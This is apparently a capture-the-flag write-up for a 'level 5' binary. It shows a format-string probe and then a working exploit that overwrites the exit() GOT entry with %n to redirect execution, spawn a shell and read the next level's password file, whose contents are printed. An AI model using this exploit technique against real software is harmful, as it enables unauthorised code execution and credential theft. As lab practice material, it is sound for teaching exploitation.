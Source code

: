 # level 5

There is an exec level5, we bring to local data.

    (python -c 'print "aaaabbbbcccc" + " %p" * 10') | ./level5 
    aaaabbbbcccc 0x200 0xb7fd1ac0 0xb7ff37d0 0x61616161 0x62626262 0x63636363 0x20702520 0x25207025 0x70252070 0x20702520

## addresses

o()
    `080484a4`
exit() GOT : (Global Offset Table) is a table of addresses in the data section, it contains the shared library functions addresses.
    `0x8049838`

    $ (python -c 'print ("\x38\x98\x04\x08" + "%134513824c" + "%4$n")'; cat ) | ./level5
    whoami
    level6
    pwd
    /home/user/level5
    cat /home/user/level6/.pass
    d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
